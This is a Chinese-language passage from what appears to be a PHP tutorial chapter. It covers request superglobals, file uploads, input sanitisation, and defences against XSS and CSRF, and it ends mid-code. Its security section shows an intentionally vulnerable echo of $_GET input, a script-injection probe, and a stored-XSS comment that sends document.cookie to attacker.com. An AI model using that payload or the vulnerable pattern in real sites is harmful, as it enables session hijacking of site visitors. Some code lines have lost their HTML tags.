1.  为了调试目的，我们可能想要转储 `$_GET` 值。我们可以使用 `var_export` 来做这件事：

    ```php
    <p>The value of $_GET is:</p>
    <pre><?= var_export($_GET, true); ?></pre>
    ```

1.  现在，在页面上添加一些链接将非常有用，每个 `$heroes` 条目一个，以包含 `hero` 查询字符串参数。我们可以将构建链接所需的代码添加到一个函数中，以避免在同一个脚本中反复重复相同的逻辑。让我们称这个函数为 `path()`，并允许它接受一个关联数组，该数组将用于构建 URL 的查询字符串部分。我们将使用内置的 `http_build_query()` 函数根据输入数据生成查询字符串；例如，`['name' => 'john']` 将生成 `name=john` 查询字符串。这将附加到脚本文件名（在我们的例子中，这是 `super-get-href.php`）：

    ```php
    function path(array $queryData)
    {
        return sprintf('./super-get-href.php?%s', http_build_      query($queryData));
    }
    ```

1.  要创建 HTML 链接，我们需要遍历`$heroes`数组并为每个字符渲染一个`<a>`元素，使用`path()`函数生成`href`属性值。由于我们正在查找`$_GET['hero']`以获取角色 ID，因此`path()`函数的参数应该是`['hero' => $heroId]`。所有链接都将收集在`$heroLinks`变量中：

    ```php
    $heroLinks = [];
    foreach ($heroes as $heroId => $heroData) {
        $heroLinks[] = sprintf('<a href="%s">%s</a>',       path(['hero' => $heroId]), $heroData['name']);
    }
    ```

1.  要打印链接，使用双斜杠（`//`）分隔符，我们可以使用`implode()`数组函数通过分隔符连接所有条目：

    ```php
    echo sprintf('<p>%s</p>', implode(' // ', $heroLinks));
    ```

    注意

    我们将在脚本文件顶部分组 PHP 逻辑，并在其下方放置 HTML 标记。你可以参考完整的文件[`packt.live/35xfmDd`](https://packt.live/35xfmDd)。

1.  现在通过内置服务器在`http://127.0.0.1:8080/super-get-href.php`中通过浏览器访问该文件。

    作为输出，在第一行，您将看到带有角色名称的链接，下面将找到`$_GET`超全局变量的值，它是一个空数组：

    

    图 6.16：不使用查询字符串参数访问 super-get-href.php 脚本

1.  现在您可以随意点击链接，并观察 URL 和`$_GET`变量的值发生了什么。例如，点击“黑豹”链接，您会注意到`http://127.0.0.1:8080/super-get-href.php?hero=black-panther` URL，内容看起来像这样：


图 6.17：点击“黑豹”链接后显示的页面

## $_POST

`$_POST`携带`POST`请求数据（即 URL 编码或 multipart 表单数据）。它与查询字符串相同；例如，当`reset=all`在`POST`有效负载中发送时，`echo $_POST['reset']`的输出将是`all`。

`POST`数据是通过 HTML 表单从浏览器发送的。`POST`方法通常用于在应用程序中更改数据，无论是创建、更新还是删除数据；移动数据；触发远程操作；或者更改会话状态，仅举几例。

## 练习 6.5：发送和读取 POST 数据

在这个练习中，你将使用 HTML 表单发送`POST`数据，并在 PHP 脚本中管理这些数据。遵循之前的示例，让我们保持`$heroes`变量中的相同数据；然而，我们不会使用链接，而是使用表单通过`POST`方法发送数据。

完成练习的以下步骤：

1.  创建一个名为`super-post-form.php`的文件，并包含以下内容。

1.  就像在之前的练习中一样，我们将定义一个包含三个条目的关联数组，字符的 URI 友好 ID 作为数组键，字符数据（也是关联数组）作为值。将以下数据添加到`$heroes`变量中：

    ```php
    // define the data
    $heroes = [
        "a-bomb" => [
            "id" => 1017100,
            "name" => "A-Bomb (HAS)",
        ],
        "captain-america" => [
            "id" => 1009220,
            "name" => "Captain America",
        ],
        "black-panther" => [
            "id" => 1009187,
            "name" => "Black Panther",
        ],
    ];
    ```

1.  选择角色条目的方式与之前的示例相同，不同之处在于我们现在正在查看 `$_POST` 超全局变量，而不是之前练习中的 `$_GET` 方法：

    ```php
    $selectedHero = [];
    // process the post request, if any
    if (array_key_exists('hero', $_POST)) {
        if (array_key_exists($_POST['hero'], $heroes)) {
            $heroId = $_POST['hero'];
            $selectedHero = $heroes[$heroId];
        }
    }
    ```

1.  要显示选定的角色，我们将保持与之前练习相同的格式和逻辑：

    ```php
    <div style="background: #eee">
        <p>Selected hero:</p>
        <?php if ($selectedHero) { ?>
            <h3><?= $selectedHero['name'] ?></h3>
            <h4>ID: <?= $selectedHero['id'] ?></h4>
        <?php } else { ?>
            <p>None.</p>
        <?php } ?>
    </div>
    ```

1.  此外，出于调试目的，我们将输出 `$_POST` 的值：

    ```php
    <p>The value of $_POST is:</p>
    <pre><?= var_export($_POST, true); ?></pre>
    ```

1.  要使用 POST 方法结束数据，我们将使用一个包含 `<select>` 元素的 `<form>` 元素。`<select>` 元素将包含具有字符 ID 作为值和字符名称作为标签的 `<option>`：

    ```php
    <form action="./super-post-form.php" method="post"   enctype="application/x-www-form-urlencoded">
        <label for="hero_select">Select your hero: </label>
        <select name="hero" id="hero_select">
            <?php foreach ($heroes as $heroId => $heroData) { ?>
                <option value="<?= $heroId ?>"><?= $heroData['name'] ?>              </option>
            <?php } ?>
        </select>
        <input type="submit" value="Show">
    </form>
    ```

1.  在浏览器中打开文件 `http://127.0.0.1:8080/super-post-form.php`。

    输出应如下所示：

    

    图 6.18：首次访问 super-post-form.php 脚本

1.  在 `<select>` 元素中选择 `Captain America` 项目，然后点击 `Show` 按钮。

    输出现在如下所示：


图 6.19：提交表单后显示 super-post-form.php 脚本的结果

注意页面上的新内容，并查看 URL - 由于数据在 HTTP 请求体中发送，因此不再有查询字符串。正如你可能注意到的，这与 `$_GET` 变量相同 - 它只是输入源不同。此外，请注意 `<select>` 元素显示的是 `A-Bomb (HAS)` 值；这是因为没有设置 `selected` 属性的 `<option>`，因此 `<select>` 元素默认将第一个选项作为选中选项。

## $_FILES

`$_FILES` 超全局变量包含上传尝试的数据，这意味着如果相关数据出现在此变量中，则上传不被视为成功。失败尝试的原因多种多样，可以在官方 PHP 文档页面上找到原因列表（或上传状态）（[`packt.live/32hXhH2`](https://packt.live/32hXhH2)）。所有上传的文件都存储在临时位置，直到应用程序脚本将它们移动到持久存储。`$_FILES` 是一个关联数组，其形式为输入名称作为条目键，上传信息作为条目值。上传信息是另一个关联数组，具有以下字段：`name`、`tmp_name`、`type`、`size` 和 `error`。

`name` 字段将包含与请求一起发送的文件的基名；`tmp_name` 将包含上传文件的临时位置（以便你的脚本将其移动到适当的位置）；`type` 将包含客户端在相同请求中发送的文件媒体类型（MIME 类型）；`size` 将是字节数；`error` 将包含有关上传状态的信息。请注意，`type` 键中指定的媒体类型*不是文件扩展名，它在操作系统的文件系统中出现*。

警告

作为一种良好的实践，建议您使用内置函数或其他适当的工具来检测文件的 MIME 类型；因此，不要信任用户输入——始终进行测试。默认情况下，上传文件大小限制为 2 MB，POST 负载限制为 8 MB（对于整个请求）。

## 练习 6.6：上传文件并验证其类型

在这个练习中，我们将上传一个图像，通过检测其 MIME 类型来验证上传的文件，然后将在浏览器中显示成功上传的图像。

这里是执行练习的步骤：

1.  创建一个名为 `super-post-upload.php` 的文件。

    在我们尝试上传文件之前，我们应该定义上传位置、目标文件路径，以及为了能够在浏览器中显示它，文件的相对路径到服务器文档根目录（在我们的情况下，文档根是脚本文件运行所在的目录）。

1.  我们将使用一个静态文件名作为上传目标，这样我们就可以保存和显示单个图像，而不是它们的列表：

    ```php
    $uploadsDir = __DIR__ . DIRECTORY_SEPARATOR . 'uploads';
    $targetFilename = $uploadsDir . DIRECTORY_SEPARATOR . 'my-image.png';
    $relativeFilename = substr($targetFilename, strlen(__DIR__));
    ```

    `$relativeFilename` 相对文件路径，与目标文件路径不同，不是磁盘上的完整文件路径；它只是相对于当前目录（即服务器文档根目录，脚本运行的位置）的路径。为了实现这一点，我们使用内置的 `substr()` 函数从目标文件路径中减去字符串，从 `strlen(__DIR__)` 位置开始，意味着从目标文件路径到当前目录的部分将被剪切。

1.  确保 `$uploadsDir` 是磁盘上的有效路径；如果不存在，则创建 `uploads` 目录。

1.  由于上传的文件（或上传尝试）存储在 `$_FILES` 变量中，我们将检查其中的监视条目。假设我们期望在 `uploadFile` 输入名称下有一个文件；然后，我们可以使用 `array_key_exists('uploadFile', $_FILES)` 来执行检查。最终，`$_FILES['uploadFile']` 的值将被存储在 `$uploadInfo` 变量中，以便更方便地处理上传文件信息：

    ```php
    if (array_key_exists('uploadFile', $_FILES)) {
        $uploadInfo = $_FILES['uploadFile'];
    ```

1.  接下来，我们想要确保上传已成功完成。上传状态存储在之前提到的 `error` 条目中，因此我们可能想要使用 `switch` 语句跳转到上传的状态，使用 `UPLOAD_ERR_*` 常量作为 `case` 值。`switch` 语句的开始应该看起来像这样：

    ```php
        switch ($uploadInfo['error']) {
            case UPLOAD_ERR_OK:
    ```

1.  在上传成功的情况下，我们应该验证输入数据。我们最关心的是服务器从客户端获取的内容的 MIME 类型，为了检查它是否是预期的类型，我们使用内置的 `mime_content_type()` 函数。假设我们只允许上传 PNG 图像，如下所示：

    ```php
    mime_content_type($uploadInfo['tmp_name']); // we expect 'image/png'
    ```

1.  验证通过后，我们应该将文件从临时位置移动到我们之前定义的 `$targetFilename` 目的地，我们将使用 `move_uploaded_file()` 函数来完成这个操作。该函数将上传文件的临时路径作为第一个参数，目标作为第二个参数。如果成功，它将返回 `TRUE`：

    ```php
    move_uploaded_file($uploadInfo['tmp_name'], $targetFilename);
    ```

    警告

    由于安全影响，避免使用 `rename()` 文件系统函数进行此操作。在此上下文中，`move_uploaded_file()` 要好得多，因为它只有在要移动的文件是当前请求中上传的文件时才会继续执行。

1.  我们将添加超出文件大小（`UPLOAD_ERR_INI_SIZE`）和缺少文件（`UPLOAD_ERR_NO_FILE`）进行上传操作的情况，并为每种情况打印自定义的错误信息：

    ```php
    case UPLOAD_ERR_INI_SIZE:
        echo sprintf('Failed to upload [%s]: the file is too big.',       $uploadInfo['name']);
        break;
    case UPLOAD_ERR_NO_FILE:
        echo 'No file was uploaded.';
        break;
    ```

1.  对于其他状态类型，让我们添加一个通用消息来显示错误代码：

    ```php
    default:
        echo sprintf('Failed to upload [%s]: error code [%d].',       $uploadInfo['name'], $uploadInfo['error']);
        break;
    ```

1.  要从网页上传文件，我们必须在该网页上添加上传表单，包括类型为 `file` 的 `<input>` 和 `"uploadFile"` 名称（我们在脚本中监视这个名称）。表单需要带有 `"multipart/form-data"` 值的 `enctype` 属性：

    ```php
    <form action="./super-post-upload.php" method="post"   enctype="multipart/form-data">
        <input type="file" name="uploadFile">
        <input type="submit" value="Upload">
    </form>
    ```

1.  在处理文件上传后，让我们在上传后显示图像。首先，我们必须检查文件是否存在，我们可以通过使用内置的文件系统函数 `file_exists()` 来完成这个操作：

    ```php
    if (file_exists($targetFilename)) {
        // print the file
    }
    ```

1.  要在浏览器中显示图像，我们应该在 `src` 属性中使用指向服务器文档根的相对路径来渲染一个 HTML `` 元素：

    ```php
    echo sprintf('', $relativeFilename);
    ```

1.  在浏览器中打开文件，访问 `http://127.0.0.1:8080/super-post-upload.php`。

    输出应该只是一个文件上传表单：

    

    图 6.20：文件上传表单

1.  点击 `Upload` 而不选择文件。这次，在表单之前将显示一个错误信息。输出应该看起来像这样：

    图 6.21：未提交文件时的文件上传错误

    由于表单上传输入中缺少文件，`$uploadInfo['error']` 的值为 `UPLOAD_ERR_NO_FILE`，我们得到了 `No file was uploaded.` 错误。

1.  选择一个大于 2 MB 的大文件，然后点击 `Upload` 按钮。这次，另一个错误信息将警告您上传文件超过了大小限制：![图 6.22：提交的文件过大时的文件上传错误    图 6.22：提交的文件过大时的文件上传错误    与上一步类似，我们遇到了上传错误。这次的上传错误是 `UPLOAD_ERR_INI_SIZE`。1.  选择一个小于 2 MB 且非 PNG 格式的文件，然后点击 `Upload` 按钮。此时将出现另一个错误信息，告知您文件格式不是接受的格式：

    图 6.23：提交的文件格式不被接受时的文件上传错误

    与之前的步骤不同，这次的上传错误是`UPLOAD_ERR_OK`，这意味着上传没有发生错误。页面上显示的错误信息是由文件 MIME 类型验证引起的，它需要是`image/png`。

1.  最后，选择一个小于 2 MB 的 PNG 图像文件，然后点击`上传`按钮。页面应显示上传成功的消息并渲染上传的图片：


图 6.24：当提交的文件满足要求时文件上传成功

由于上传没有错误发生，并且 MIME 文件类型是预期的，文件被存储在服务器上的指定路径，并在浏览器页面上显示。

## 保护输入和输出数据

为了保护你的网站用户和网站本身，你应该保护你的 Web 应用程序免受恶意输入和操作的侵害。应用程序安全是可靠应用程序的支柱之一。这不应被忽视；相反，在开发应用程序时，你必须始终考虑安全性。

尽管大部分的焦点（如果不是全部）都集中在用户输入上，但如果无论数据来源如何都能进行数据验证，那就好多了。这在项目中有团队参与而不是单一个人的情况下尤其必要。这可能导致许多不可预测的事件，例如看似无害的代码更改，但可能会在应用程序流程中触发意外的行为。想象一下，一个类方法被设计并用于某些内部逻辑过程，但最终却被用于处理*外部*数据（来自数据库、用户输入或其他地方）。虽然类的自数据可能有一定的信任度，至少在数据类型方面（取决于设计），但外部数据是不可信的。在某些情况下，在一个小团队中开发产品时，可能会诱使你要求应用程序管理员在这里和那里插入特定格式的数据，将数据验证和清理留到*以后*，同时你急切地试图交付更多和更多的功能（可能为了满足截止日期）。然后，想象一下你的产品变得如此成功，以至于管理层决定扩展业务，将其作为 SaaS 解决方案提供。在这种情况下，应用程序管理员不再是你的小团队，如果你不处理输入验证和清理，所有客户的数据都将处于风险之中。这次，及时解决所有问题将非常困难——你将不得不在整个应用程序中找到这些安全漏洞。

通常，不关注数据验证和清理将导致未来的巨大技术债务，因为您不仅会使客户数据处于风险之中，而且应用程序操作可能会返回不可预测的结果，这将要求开发者追踪和调试问题，这又需要时间和金钱，而这些问题会导致糟糕的用户体验。

## 最佳实践

这里有一些编码实践可以使您的 PHP 代码更不容易出现错误和安全问题：

+   为您的 Web 应用使用单一入口点：这涉及到一个单一的 PHP 文件，该文件负责接收每个 HTTP 请求并处理它。此文件将引导所有依赖项，加载配置文件，初始化请求处理器（如`Dispatcher`、`HttpKernel`等——请注意，每个框架都有自己的名称），然后路由请求到适当的 PHP 脚本以生成响应。在我们的示例中，我们使用了多个输入文件来提供一些示例；这并不是真实世界应用的方法。稍后，我们将查看一个简单引导的示例，该示例在单个输入文件中运行此主题中的示例，同时保持每个示例文件在磁盘上。

+   将业务逻辑与表示逻辑分开：始终将责任分开是更好的做法。现代框架自带模板引擎，以帮助开发者将大部分（如果不是全部）业务逻辑保持在 PHP 文件中，而不是在表示文件中。这有助于只关注一个部分；即，收集和/或处理数据或显示数据（即，通过视觉）。此外，如果业务逻辑没有散布在表示标记中，则更容易阅读。我们将在稍后的引导示例中更详细地介绍这一点。

+   早期清理和验证输入，晚期转义：输入数据指的是应用程序之外的数据，无论是用户输入、数据库数据、文件系统文件数据还是其他数据。通过清理数据，您确保为给定输入获得尽可能干净的数据，而通过验证，您确保允许脚本使用接受的值或值的范围。另一方面，对输出数据进行转义使应用程序避免一些其他问题，例如**跨站脚本攻击**（**XSS**）。

    我们将很快看到如何在 PHP 中实现这一点。

+   尽可能使用类型提示：使用类型提示，您可以确保函数的输入和输出类型，因此此功能可以防止当函数的输入或输出数据不是预期类型时执行代码。例如，如果您的函数期望一个可迭代对象，但传递了一个字符串，那么引擎将抛出一个`TypeError`异常（如果未捕获，则停止脚本执行）。

    这还不是全部。默认情况下，PHP 会在可能的情况下强制转换不匹配预期类型的变量的值。这仅适用于标量。例如，如果一个函数期望一个整数，但传递了一个数值字符串，那么它将被转换为整数。PHP 还提供了严格类型检查的功能，我建议你在应用程序开发中使用它。它可以根据文件使用情况添加，只需添加`declare(strict_types=1);`并将它应用于强制执行严格类型的文件中的函数调用。这意味着从非严格类型检查的函数调用到启用了强类型检查的文件的函数，调用者的弱类型偏好将被尊重，并且值将被强制转换。使用严格类型检查可以使你的应用程序更不容易出现错误，这仅仅是因为`'123abc' == 123`，这让我想到了下一个点。

+   使用严格比较（`===`）：PHP 支持两种比较类型：松散比较（`==`）和严格比较（`===`）。在松散比较的情况下，PHP 会尝试将两个操作数的值对齐到公共类型，然后进行比较。这就是为什么`0 == FALSE`评估为`TRUE`的原因。虽然这被认为是 PHP 的一个特性，受到初学者开发者的赞扬，但我强烈建议你从一开始就避免使用这种结构。另一方面，字符串比较不会尝试强制转换操作数的数据，因为它比较的是值和类型。

    一般而言，作为查看你代码的开发者，你应该知道在应用程序的每一行中你正在处理什么数据。

    换句话说，你允许你的应用程序运行越多魔法，你的应用程序就越容易出现*魔法*错误！

+   将你的代码拆分成更小的部分：尽量避免编写长函数，而是尝试将代码拆分成你可以实际测试的部分。那么，你应该使用什么粒度来拆分你的代码呢？好吧，问问你试图用数据做什么，然后它就会归结为具有`decorateComment`、`splitCollection`、`shouldTrim`等名称的函数。如果你最终得到的是`getCommentsByGroupingAndDecoratingLongOnes`这样的东西，你可能会发现这个函数做了太多的操作，这些操作可以被拆分成更短、更易于管理和测试的函数。

+   避免使用错误抑制操作符`@`：这个操作符相当慢，因为 PHP 会关闭错误报告，并在操作完成后将其恢复到原始值。此外，不要在生产环境中关闭错误报告；相反，使用自定义错误处理程序并以你偏好的方式记录错误，这样你就可以在代码执行过程中看到是否有错误发生。

## 清理和验证用户输入

一旦数据到达脚本，就应该进行清理，并且必须始终进行验证。你想要确保你不会接收到有害的数据，因此你想要清理用户输入，这意味着从提供的输入中删除可能有害的内容，或者将数据转换为特定的类型，如整数或布尔值。此外，你想要确保输入数据是有效的数字，或者当期望时是一个电子邮件地址，等等。

内置的 `filter_input()` 函数用于处理请求中的数据，并在需要时将其更改为预期的格式。

语法是 `filter_input( int $type, string $variable_name, int $filter = FILTER_DEFAULT, mixed $options = null )`，因此它接受要查找的输入类型、要查找的输入参数名称、可选的过滤器类型以及如果需要的话任何额外的选项。`FILTER_SANITIZE_*` 过滤器的作用是删除特定格式中不期望的数据。例如，`FILTER_SANITIZE_NUMBER_INT` 将删除除了数字和加减符号之外的所有内容。完整的清理选项列表可以在 [`packt.live/31vww0M`](https://packt.live/31vww0M) 找到。

## 练习 6.7：清理和验证用户输入

在下面的练习中，我们将清理和验证输入数据。假设你已经构建了一个电子商务网络应用程序，现在你想开发反馈部分。在 `POST` 负载中，你期望收到一条消息和星级评分；也就是说，任何介于一到五之间的数字。

下面是执行练习的步骤：

1.  要清理输入，你可以这样使用 `filter_input()` 函数，假设我们在查找 `stars` 和 `message` 输入字段：

    ```php
    $stars = filter_input(INPUT_POST, 'stars', FILTER_SANITIZE_NUMBER_INT);
    $message = filter_input(INPUT_POST, 'message', FILTER_SANITIZE_STRING);
    ```

1.  当然，你应该检查 `filter_input` 的返回值。正如手册所述，如果输入不存在，将返回 `NULL`，如果过滤器失败，则返回 `FALSE`，否则返回标量。接下来，我们想要验证清理后的输入数据：

    ```php
        // first approach
        $stars = (int)$stars;
        if($stars < 1 || $stars > 5){
            echo '<p>Stars can have values between 1 and 5.</p>';
        }
    ```

    我们还可以考虑以下方法：

    ```php
        // or second approach
        $stars = filter_var($stars, FILTER_VALIDATE_INT, [
            'options' => [
                'default' => 0, // value to return if the filter fails
                'min_range' => 1,
                'max_range' => 5,
            ]
        ]);
        if(0 === $stars){
            echo '<p>Stars can have values between 1 and 5.</p>';
        }
    ```

    你会注意到，在某个时刻，我们将 `stars` 输入值转换成了整数 `($stars = (int)$stars;)`。这是因为，使用 `FILTER_SANITIZE_*` 过滤器类型时，如果过滤器运行成功，你总是会得到一个字符串。此外，你会注意到我们使用了 `filter_var` 函数，与 `filter_input` 不同，它将接受一个变量作为第一个参数，然后是过滤器类型和选项。在之前展示的两个验证整数输入的方法中，我更喜欢第一个，因为它代码更少，而且可能比第二个方法（无论如何，除非你运行的是高流量的网络应用程序，两种方法之间的性能差异几乎为零）更快。

    注意

    通常，验证整数输入会做得更简单。考虑到脚本可能期望的值高于零，或者当没有指定值时，零将是默认值，清理将看起来像这样：

    `$stars = (int)($_GET['stars'] ?? 0); // 使用空合并运算符`

1.  验证消息输入，如果`$message`是`null`或`false`（即输入未找到或清理失败），则打印错误消息：

    ```php
    if (null === $message) {
        //  treat the case when input does not exist
        echo '<p>Message input is not set.</p>';
    } elseif (false === $message) {
        //  treat the case when the filter fails
        echo '<p>Message failed to pass the sanitization filter.</p>';
    }
    ```

1.  为了调试目的，我们可能想打印清理变量的值：

    ```php
    echo sprintf("<p>Stars: %s</p><p>Message: %s</p>",   var_export($stars, true), var_export($message, true));
    ```

1.  现在我们缺少 HTML 部分；也就是说，表单。它将需要两个带有`stars`和`message`名称的输入。在这种情况下，我们可能考虑使用类型为`text`的输入来`stars`，以便能够输入无效数据，这样我们就可以验证我们的清理和验证逻辑，并为`message`使用类型为`textarea`的另一个输入：

    ```php
    <form method="post">
        <label for="stars">Stars: </label><br>
        <input type="text" name="stars" id="stars"><br>
        <label for="message">Message: </label><br>
        <textarea name="message" id="message" rows="10" cols="40">      </textarea><br>
        <input type="submit" value="Send">
    </form>
    ```

1.  将内容放入`input-sanitize.php`文件，并在浏览器中打开`http://127.0.0.1:8080/input-sanitize.php`。输出看起来像这样：

    图 6.25：首次访问 input-sanitize.php 时的输出

1.  为`stars`评分输入`3a`，为消息输入`Hello <script>alert(1)</script>`，然后提交表单。你将得到类似以下输出：


图 6.26：input-sanitize.php 输出中的示例清理

在下面的表中，我们列出了一系列输入及其每个提交的结果。因此，这里是一个脚本将为它们相对输入渲染的清理值列表：


图 6.27：各种输入消息的清理值列表

你应该注意一些其他的清理函数：

+   `strip_tags()`: 这会从字符串中移除 HTML 标签；例如，`strip_tags('Hello <script>alert(1)</script>!');` 将移除`<script>`的打开和关闭标签，结果如下输出：`"Hello alert(1)!"`。这会移除不期望的 HTML 标签，并从应用程序中移除可能危险的脚本，这些脚本可能会在浏览器中进一步输出，导致恶意行为。

+   `trim()`: 默认情况下，它会从字符串的开始和结束处移除空白字符，或者根据指定移除其他字符。

这里有一些你可能想要使用的函数来验证你的数据：

+   `is_numeric()`: 这告诉我们一个变量是否是数字或数字字符串。

+   `preg_match()`: 这执行正则表达式匹配。

+   `in_array()`: 这检查给定的函数参数数组中的值是否存在于值列表中。

## 输出转义

现在，让我们谈谈离开应用程序的数据。当将数据作为 HTML 标记发送到浏览器时，你还得关注另一个安全问题。

这次，你想要逃离数据。逃离意味着将可能有害的数据转换为无害的数据。由于浏览器将通过解析你提供的脚本中的 HTML 来渲染页面，你需要确保输出不会产生不期望的副作用，破坏页面布局，或者更糟糕的是，将用户会话和数据置于风险之中。

## 跨站脚本攻击（XSS）

现今网络中最常见的漏洞是**跨站脚本攻击**（**XSS**）。这种漏洞允许攻击者在客户端（在浏览器中）注入任意 HTML 标签和/或运行任意 JavaScript 代码。

XSS 攻击有三种类型：

+   存储型 XSS：在这里，恶意代码存储在服务器或客户端浏览器上。

+   反射型 XSS：在这里，恶意代码立即从用户输入返回。

+   基于 DOM 的 XSS：在这里，恶意代码使用存储在 DOM 中的数据发送到攻击者的网站。

虽然这些是不同类型的 XSS，但它们实际上有重叠。通常，它们被称为服务器 XSS 或客户端 XSS，指向网站的易受攻击的一侧。

反射型 XSS 的一个常见例子是搜索结果页面，用户会看到他们提交的搜索输入。在这种情况下，一个有漏洞的脚本应该看起来像这样：

```php
echo sprintf('Search terms: %s', $_GET['s']);
```

当然，访问`/?s=hello`将导致输出`"搜索词: hello"`，这是糟糕测试的样子。然而，当尝试`/?s=<script>alert(1)</script>`时，输出是`"搜索词: "`并且显示一个弹出框显示数字 1。这是因为 HTML 将看起来是这样的：

```php
Search terms: <script>alert(1)</script>
```

虽然这看起来无害，但想想这里的可能性。你可以注入任何 HTML 标记，包括脚本，并且能够监视用户会话、数据和动作，甚至更多——它能够代表用户执行操作。

幸运的是，有方法可以防止此类攻击，虽然数据验证和清理也可以用于此，但最常用的方法之一是输出转义。PHP 提供了一些内置函数，提供了这样的功能：`htmlspecialchars()`和`htmlentities()`。这两个函数所做的就是将某些敏感字符转换为它们相关的 HTML 实体值，另外，`htmlentities()`将所有与 HTML 命名的实体相关的字符都转换为实体。我鼓励你使用`htmlentities($string, ENT_QUOTES)`，这样所有字符都将转换为实体；此外，`ENT_QUOTES`确保双引号和单引号都被转义。

根据前面的例子，修复应该看起来相当简单：

```php
echo sprintf('Search terms: %s', htmlentities($_GET['s'], ENT_QUOTES));
```

现在，浏览器将输出 `搜索词: <script>alert(1)</script>`，因为 HTML 看起来是这样的：

```php
Search terms: &lt;script&gt;alert(1)&lt;/script&gt;
```

为了方便，我将打印 PHP 将用`htmlspecialchars()`替换的特殊字符列表：


图 6.28：特殊字符及其替换

现在，让我们考虑一个存储型 XSS 样本的例子。正如其名所示，存储型 XSS 是一段存储在服务器或浏览器上的恶意软件。我将讨论存储在服务器上的那种，但在浏览器的情况下，它类似（只是不是用 PHP 实现的）。

好的，那么一个 XSS 恶意软件片段是如何存储在服务器上的呢？嗯，很简单：这可以通过应用存储的每个用户输入来完成（通常存储在数据库中）。想想博客帖子的评论、产品的评论、头像的 URL、用户的网站 URL 以及其他例子。在这些情况下，为了渲染安全的 HTML，答案是相同的；也就是说，使用`htmlentities()`。

假设数据库中有一个博客帖子的评论，内容如下：

```php
Great blog post! <script>document.write('');
</script>
```

在这种情况下，攻击者注入一个脚本标签，通过添加远程图片（通常是一个像素；你甚至无法在页面上看到它）在客户端执行 DOM 写入。远程图片由攻击者的服务器托管，在提供像素图片之前，它将首先收集请求查询字符串中传递的所有数据——在这个例子中，是`document.cookie`。这意味着攻击者将收集来自网站所有访问者的有效会话 ID；也就是说，匿名访客、已登录用户，甚至是管理员。

如果不进行转义，前面的评论将被浏览器渲染为`Great blog post!`，没有任何提示表明可能有一些奇怪的脚本正在执行。

转义后的版本将作为评论的原始内容渲染，因为现在 HTML 将包含实体而不是特殊字符：

```php
Great blogpost! &lt;script&gt;document.write('&lt;img src=&quot;https://attacker.com/collect.gif?cookie=' + encodeURIComponent(document.cookie)+'&quot; /&gt;');&lt;/script&gt;
```

注意

你可以在[`packt.live/2MRX3jJ`](https://packt.live/2MRX3jJ)了解更多关于 XSS 的信息。

## 练习 6.8：防止 XSS 攻击

在这个练习中，你将构建一个针对用户输入进行保护的脚本。假设你需要在现有的网站上开发一个搜索功能。你被要求将搜索值打印回页面，并保持当前搜索词在搜索输入字段中。当然，脚本应该对用户输入进行保护。

1.  创建一个名为`output-escape-reflected.php`的文件，内容如下：

    ```php
    <?php
    declare(strict_types=1);
    if (isset($_GET['s'])) {
        echo sprintf('<p>You have searched for: <strong>%s</strong>      </p>', htmlentities($_GET['s']));
    } else {
        echo "Use the form to start searching.";
    }
    ?>
    ```

    首先，我们检查`$_GET`变量中是否有`s`条目，如果有，我们将使用`htmlentities()`函数将转义后的值打印到浏览器：

    ```php
    <form action="output-escape-reflected.php" method="get">
        <label for="search">Search term:</label>
        <input type="text" id="search" name="s" value="<?= htmlentities       ($_GET['s'] ?? '', ENT_QUOTES); ?>">
        <input type="submit" value="Search">
    </form>
    ```

1.  然后，我们打印搜索表单，并在搜索输入字段中包含当前搜索词，使用相同的`htmlentities()`函数进行转义。请注意，这次我们使用`ENT_QUOTES`作为第二个参数，这将使函数转义单引号和双引号；如果没有这个参数，只有双引号会被转义。我们使用这种方法的原因，即使`value`属性使用双引号赋值，这也允许使用单引号，因此转义两种类型的引号更安全。

1.  访问`http://127.0.0.1:8080/output-escape-reflected.php`文件。

    您应该看到类似以下内容：

    

    图 6.29：未包含搜索词的页面输出

1.  将 `"Great blogpost!" <script>alert('1')</script>` 作为搜索词输入，并点击 `搜索` 按钮。你应该看到类似以下内容：


图 6.30：搜索词的转义输出

如您从前面的输出中看到的那样，我们显示了用户输入的搜索词，并且也在搜索输入字段中保留了它。

# 跨站请求伪造（CSRF）

**跨站请求伪造**（**CSRF**）是一种攻击，允许用户在当前已认证的 Web 应用程序上执行他们不希望执行的操作。这种攻击可能导致资金转移、更改账户电子邮件地址或以用户的名义进行购买。

This can happen when the attacker knows exactly what data is expected on the affected application for a certain action – changing an email address, let's say. So, the attacker crafts the HTML form on their server, filling it with their preferred data (that is, their own email address). Next, the attacker chooses the victim and uses social engineering to trick them into accessing the URL.

受害者随后会进入一个恶意网站，浏览器会被指示将（不可见的）表单提交给受影响的已登录应用程序。电子邮件地址会被更改，当受害者意识到这一点时，可能已经太晚了，因为账户的控制权已经被攻击者夺取。值得一提的是，受害者甚至可能不会意识到是什么导致了受影响应用程序上的电子邮件更改操作，因为攻击者网站上的表单可以在像素 iFrame 内部提交。因此，受害者可能会认为他们访问了一些类型的酷病毒视频博客，而没有意识到幕后隐藏的危险。

注意

在信息安全领域，社会工程学是指在信息收集、欺诈或系统访问的目的下进行信心骗局，它指的是对人们进行心理操纵以执行行动或泄露机密信息。

为了减轻您应用程序中的 CSRF 攻击，我们建议您生成并使用 CSRF 令牌。这些是随机生成的可变长度的字符串片段。这些令牌不是随表单一起发送的数据的一部分（如 cookies），但它们是表单数据的一部分。通过 HTTP 表单发送的令牌随后与会话数据中存储的值进行比较，如果完全匹配，则允许请求。

通常，你可以为每个会话生成一个令牌，但也可以为每个会话表单生成一个令牌。

CSRF 令牌方法有助于防止 CSRF 攻击，因为攻击者不知道你的会话 CSRF 令牌是什么，并且所有在实现 CSRF 令牌之前成功进行的恶意操作现在将在令牌验证阶段失败。

注意

你可以在 [`packt.live/31aAFHb`](https://packt.live/31aAFHb) 上了解更多关于 CSRF 的信息。

## 练习 6.9：防范 CSRF 攻击

在这个练习中，你将设置一个 CSRF 令牌用于用户操作验证。

1.  创建一个名为 `form-csrf.php` 的文件，并插入以下内容：

    首先，应启动会话，然后脚本将在会话数据中查找 `csrf-token` 条目，如果未找到，则将生成一个并使用两个内置函数存储在会话中。我们将使用 `random_bytes()` 生成指定长度的随机字节，并使用 `bin2hex()` 将二进制数据转换为十六进制表示；即，包含从 0 到 9 的数字和从 `a` 到 `f` 的字符的字符串。该表达式将生成一个 64 位的令牌：

    ```php
    session_start();
    if (!array_key_exists('csrf-token', $_SESSION)) {
        $_SESSION['csrf-token'] = bin2hex(random_bytes(32));
    }
    ```

1.  接下来，脚本应检查请求类型是否为 `POST`，如果是，则进行令牌验证。以下是执行此操作的代码：

    ```php
